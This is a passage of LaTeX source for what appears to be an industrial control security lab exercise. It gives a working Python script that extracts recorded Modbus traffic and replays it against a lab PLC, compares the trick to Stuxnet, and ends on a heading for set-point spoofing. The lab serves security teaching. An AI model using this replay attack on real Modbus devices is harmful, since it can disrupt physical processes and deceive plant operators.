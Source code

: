 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{stepbox}{3.2 -- Replay the capture from Python}
The student container does not ship \texttt{tcpreplay} (and a raw
L2 replay would not survive Docker's bridge anyway), so we replay
at the \emph{application} layer: open a fresh TCP connection to
the PLC and shove the Modbus PDUs back at it in order. This is
what an attacker would do from a foothold inside the OT zone --
no special privileges required.

Save the following helper into the container and run it:
\begin{lstlisting}[language=bash]
docker compose exec student bash -c 'cat >/tmp/replay.py <<"PY"
import socket, sys, time
from scapy.all import rdpcap, Raw, TCP
pkts = rdpcap("/labs/captures/lab05.pcap")
mbap_pdus = []
for p in pkts:
    if TCP in p and Raw in p and p[TCP].dport == 502:
        mbap_pdus.append(bytes(p[Raw].load))
print(f"replaying {len(mbap_pdus)} Modbus PDUs")
s = socket.create_connection(("172.28.0.10", 502), timeout=2)
for i, pdu in enumerate(mbap_pdus):
    s.sendall(pdu)
    try:
        s.recv(4096)
    except socket.timeout:
        pass
    if i % 10 == 0:
        print(f"  sent {i+1}/{len(mbap_pdus)}")
    time.sleep(0.05)
s.close()
print("done")
PY
pip3 install --break-system-packages --quiet scapy \
    >/dev/null 2>&1 || true
python3 /tmp/replay.py'
\end{lstlisting}
\textit{Expected output (abridged):}
\begin{lstlisting}
replaying 30 Modbus PDUs
  sent 1/30
  sent 11/30
  sent 21/30
done
\end{lstlisting}
Open the HMI at \url{http://127.0.0.1:8080} and watch the Monitoring
page. The replay produces \emph{exactly} the request pattern of a
normal poll -- because that is what it is. Nothing the wire shows is
``malicious'' on its own.

\emph{Real-world anchor:} this is the same trick Stuxnet used for
its 21-second HMI deception window. The malware did not invent
sensor readings; it played back ones it had previously recorded.
The packets were genuine. Only the \emph{timing} was a lie.
\end{stepbox}

\section*{Part 4 -- Set-point spoofing with operator deception}
\end{document}
